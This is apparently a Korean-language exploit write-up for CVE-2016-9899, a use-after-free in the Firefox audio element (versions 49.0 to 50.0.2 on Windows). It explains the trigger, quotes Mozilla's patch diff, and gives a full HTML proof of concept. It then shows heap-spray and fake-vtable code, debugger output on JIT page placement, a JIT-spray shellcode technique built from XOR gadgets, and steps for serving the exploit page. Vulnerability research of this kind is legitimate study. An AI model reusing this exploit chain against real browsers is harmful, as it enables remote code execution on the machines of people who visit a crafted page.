


# Firefox audio element Use-After-Free

## Information
- CVE : 2016-9899
- 해당 소프트웨어 : Mozilla Firefox (on Windows)
- 해당 버전 : Firefox 49.0 ~ Firefox 50.0.2
- 취약점 유형 : Use-After-Free

## Root Cause
DOM 구조에서 하위 노드들의 이벤트들을 조작하는 과정에서 `audio` 태그를 생성하고 지우면 use-after-free 취약점을 발생시킬 수 있다. 취약점에 대한 자세한 설명은 생략하고 이를 트리거하는 과정에 대해 간략하게 서술한다.

(1) 특정 이름(여기서는 `exp`)의 iframe 태그를 생성한다.
```html
<iframe src='about:blank' id='exp' width="100%"></iframe>
```
(2) 위에서 만든 태그로 DOM 구조체 형성 및 fake object를 생성하기 위한 힙 영역을 미리 할당하고 해당 DOM 구조체 내에서 변경이 일어날 경우 handler 함수를 호출하도록 설정한다.
```js
var hh = spray(4096, 1024);
document.body.setAttribute('hh', hh);
doc = document.getElementById("exp").contentWindow.document;
doc.getElementsByTagName("*")[0].addEventListener("DOMSubtreeModified", handler, false);
doc.getElementsByTagName("*")[0].style = "PWNED";
setInterval("pwn();", 1000);
```
(3) 위에서 DOM의 하위 노드들이 변경될때마다 `handler`를 호출하는데 이는 audio 태그를 생성하여 추가하고 삭제하는 역할을 한다.
```js
function handler()
{
    if(cnt > 0)
        return;
    doc.body.appendChild(document.createElement("audio")).remove(); // free
    spray(1024, 1024);
    ++cnt;
}
```
(4) 위의 작업들이 끝나고 pwn 함수를 호출하는데 이는 free된 영역을 fake object로 채우는 역할을 한다.
```js
for(var i=0; i<4096; i++) // fill the hole
{
    fake_object[i] = new Uint32Array(256);
    fake_object[i][0] = 0x61626364; // fake vtable
    for(var j=1; j<256; j++)
fake_object[i][j] = 0x91919191;
```
(5) 마지막으로, 이미 해제된 iframe 태그를 다시 해제하려고 할 경우 use-after-free 취약점이 발생하게 된다.
```js
window.fake_object = fake_object;
document.getElementById("exp").remove(); // re-use...Boom!!
```

## Patch
```patch
diff --git a/dom/base/nsNodeUtils.cpp b/dom/base/nsNodeUtils.cpp
--- a/dom/base/nsNodeUtils.cpp
+++ b/dom/base/nsNodeUtils.cpp
@@ -576,18 +576,23 @@ nsNodeUtils::CloneAndAdopt(nsINode *aNod
     if (aReparentScope) {
       AutoJSContext cx;
       JS::Rooted<JSObject*> wrapper(cx);
       if ((wrapper = aNode->GetWrapper())) {
         MOZ_ASSERT(IsDOMObject(wrapper));
         JSAutoCompartment ac(cx, wrapper);
         rv = ReparentWrapper(cx, wrapper);
         if (NS_FAILED(rv)) {
+          if (wasRegistered) {
+            aNode->OwnerDoc()->UnregisterActivityObserver(aNode->AsElement());
+          }
           aNode->mNodeInfo.swap(newNodeInfo);
-
+          if (wasRegistered) {
+            aNode->OwnerDoc()->RegisterActivityObserver(aNode->AsElement());
+          }
           return rv;
         }
       }
     }
   }
```

## PoC
```html
<!DOCTYPE html>
<html>
  <head>
  <!-- <meta http-equiv="refresh" content="1"/> -->
  <meta http-equiv="content-type" content="text/html; charset=UTF-8">
  <meta http-equiv="Expires" content="0" />
  <meta http-equiv="Cache-Control" content="no-store, no-cache, must-revalidate" />
  <meta http-equiv="Cache-Control" content="post-check=0, pre-check=0" />
  <meta http-equiv="Pragma" content="no-cache" />
  <style type="text/css">
   body{
        background-color:lime;
        font-color:red;
   };
  </style>
  <script type='text/javascript'></script> 
  <script type="text/javascript" language="JavaScript">
   
   var doc = null;
   var cnt = 0;

   function m(blocks,size) {
            var arr = [];
            for(var i=0;i<blocks;i++) {
                arr[i] = new Uint32Array(size);
                for(var j=0;j<size;j+=2) {
                    arr[i][j] = 0x41414141;
                    arr[i][j+1] = 0x42424242;
                }
            }
            return arr;
    } 
      
    function handler() {
             if(cnt > 0) return;
             doc.body.appendChild(document.createElement("audio")).remove();      
             m(1024,1024);   //stress 
             ++cnt;
    }
    function testcase()
    {
	     doc = document.getElementById("t1").contentWindow.document;
	     doc.getElementsByTagName("*")[0].addEventListener("DOMSubtreeModified",handler,false); 
	     doc.getElementsByTagName("*")[0].style = "ANNNY";
             if(cnt > 0) {
               //should be free, get size and replace memory
	        setTimeout("location.reload();",3000);   //trigger uaf
             }
    }
  </script>
  <title>Firefox 49.0.2-51 Use After Free (Windows 7 x86)</title>
  </head>
  <body onload='testcase();'>
   <iframe src='about:blank' id='t1' width="100%"></iframe>
  </body>
</html>
```

## How to exploit?
크래시가 발생한 지점은 다음과 같다.

일반적인 use-after-free 취약점을 익스플로잇하려면 가장 먼저 arbitrary write으로 연결시켜야 한다. 이는 보통 크래시가 mov,add,inc 연산에서 발생하거나 type confusion을 트리거할 수 있을 경우 쉽게 연결이 가능한데, 이 러한 경우가 아니라 위와 같이 해제된 object의 vtable값을 참조하면서 크래시가 발생한 경우 arbitrary write으로 연결시키기 어렵다. write primitive를 얻은 이후에는 힙 영역에 할당된 object들의 길이 값을 덮어써서 leak으로 연결시키고, xul.dll의 base 주소를 알아내고 해당 라이브러리에 존재하는 ROP 가젯들을 조합하여 eip를 컨트롤하 면 된다. 혹은, kernel32.dll의 VirtualProtect() 함수를 호출하여 쉘코드가 할당된 힙 영역에 실행권한을 주고 fake object의 vtable을 쉘코드 주소롤 설정하여 직접적으로 원하는 명령어를 실행시키는 방법도 있다. 하지만, 위 와 같은 크래시의 경우 write primitive를 얻기 힘들기 때문에 다소 unreliable한 방법인 JIT spray를 사용하기로 하였다. 이는 컴파일 단계에서 코드를 생성하고 빌드하는 Just-In-Time 컴파일러의 특징을 이용한 익스플로잇 기 법인데, 말그대로 필요할 때 코드를 특정 페이지에 생성하고 실행해야하기 때문에, JIT 컴파일러가 사용하는 페이 지는 기본적으로 RWX여야 한다. 물론, 요즘은 JIT hardening 기법이 적용되어서 이를 이용해 익스플로잇 하는게 어려워졌지만, Firefox에선 여전히 동작한다. 실제로 50.0.2 버전에서 JIT spray를 수행한 결과 다음과 같이 고정 적인 페이지에 할당되는 것을 확인할 수 있었다.
```
0:000> s -d 0x20000000 0x28000000 0x3c909090
23c0003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
23c1003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
23c2003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
23c3003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
23c4003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
23c5003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
...
27fb003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fc003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fd003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fe003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27ff003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d

0:000> !vprot 27fb003c
BaseAddress:       27fb0000
AllocationBase:    27fb0000
AllocationProtect: 00000004  PAGE_READWRITE
RegionSize:        00001000
State:             00001000  MEM_COMMIT
Protect:           00000020  PAGE_EXECUTE_READ
Type:              00020000  MEM_PRIVATE
```

브라우저의 힙 매커니즘이 크게 달라지지 않는다면 버전에 의존하지 않고 위와 같은 주소에 고정적으로 할당되는 것을 확인할 수 있었다. 즉, 49.0 ~ 50.0.2 버전에서는 위와 같은 주소에 할당이 된다는 것이다. 고로, fake object 의 vtable 포인터를 위의 수 많은 JIT 페이지들의 주소로 설정하면 원하는 쉘코드를 실행할 수 있게 된다.

## JIT Shellcode
JIT spray는 요즘의 브라우저에선 적용되지 않는 기법이지만 firefox는 2015년까지 꽤 안정적으로 JIT spray를 이 용한 익스플로잇이 통했다. 2016년 4월부터 firefox에도 [jit hardening](https://bugzilla.mozilla.org/show_bug.cgi?id=677272) 보호기법들이 적용되었지만, 여전히 고정적인 주소에 jit page들이 할당되는 취약점은 존재했다. JIT 컴파일러에서 사용하는 페이지들은 컴파일되는 과정에서 코드가 생성되기 때문에 RWX 권한을 가 지고 있었지만, 요즘은 W^X 보호기법을 지키고 있다. 이전처럼 RWX 권한이 할당된 페이지의 경우에는 stack pivoting 과정을 통해 손쉽게 쉘코드를 작성할 수 있었지만, 요즘 버전의 Firefox는 최대 3바이트씩 명령어를 사용 하며 익스플로잇을 해야 한다. JIT spray의 기본은 [35 $$] xor eax, $$ 명령어를 [3c 35] cmp al, 35h 명령어로 변형하여 원하는 쉘코드를 실행시키는 것이다. 이를 위해선 4바이트씩 쉘코드를 조합해야하며 이때 상위 바이트는 0x3c 여야 한다. 기본적인 prototype은 다음과 같다.
```
a = a|0;
a = a ^ 0x2711003c;
a = a ^ 0x2711003c;
a = a ^ 0x2711003c;
a = a ^ 0x2711003c;
```
위는 `call [edx]`를 할 때, 쉘코드 시작부분으로 설정하기 위한 것인데, 시작부분은 다음과 같아야 한다.
```
2711003c 90              nop
2711003d 90              nop
2711003e 90              nop
2711003f 3c35            cmp     al,35h
27110041 33c0            xor     eax,eax
27110043 90              nop
27110044 3c35            cmp     al,35h
27110046 b030            mov     al,30h
27110048 90              nop
27110049 3c35            cmp     al,35h
2711004b 648b00          mov     eax,dword ptr fs:[eax]
2711004e 3c35            cmp     al,35h
27110050 8b400c          mov     eax,dword ptr [eax+0Ch]
27110053 3c35            cmp     al,35h
```
그 다음에 본격적으로 작성한 쉘코드를 쓰면 되는데, 이때, JIT shellcode의 원칙은 다음과 같다.

1. 상위 바이트는 0x7f보다 작아야 한다. 만약, 크게 되면 xor 명령어가 꼬이게 되어 원하는 명령어를 호출할 수 없게 된다.

2. 원하는 4바이트의 값을 쓰고 싶은경우 shl 명령어를 사용하여 한 바이트씩 작성하면 된다. 만약, edi 레지스터에 0x2711103c 값을 쓰고 싶은 경우 다음과 같다.

```
a = a ^ 0x3ccccccc;
a = a ^ 0x3c90ff31;  // xor edi, edi

a = a ^ 0x3c27c783;  // add edi, 27h
a = a ^ 0x3c08e7c1;  // shl edi, 8

a = a ^ 0x3c11c783;  // add edi, 11h
a = a ^ 0x3c08e7c1;  // shl edi, 8

a = a ^ 0x3c10c783;  // add edi, 10h
a = a ^ 0x3c08e7c1;  // shl edi, 8

a = a ^ 0x3c00c783;  // add edi, 3ch
```
위 특징들에 유의하여 JIT 쉘코드를 작성하면 된다. 이외에 더욱 자세한 JIT 쉘코드 작성법은 해당링크를 참조하면 된다. 익스플로잇 증명을 위해 notepad를 띄우는 쉘코드를 사용하였으며 실행한 결과 다음과 같다.
 

## How to run exploit?
> OS : Windows 8.1 64bit(or 32bit)  
> Firefox version : 32bit 50.0.2
1) `exploit.html` 경로에 `python -m SimpleHTTPServer 8080` 명령어 실행
2) 대상 브라우저에서 해당 링크 접속

## Reference
- [UAF involving mutation events, contenteditable iframes and adding and immediately removing audio elements](https://bugzilla.mozilla.org/show_bug.cgi?id=1317409)
- [Writing JIT-Spray Shellcode for fun and profit](https://dl.packetstormsecurity.net/papers/shellcode/Writing-JIT-Spray-Shellcode.pdf)
- [Flash JIT – Spraying info leak gadgets](http://zhodiac.hispahack.com/my-stuff/security/Flash_Jit_InfoLeak_Gadgets.pdf)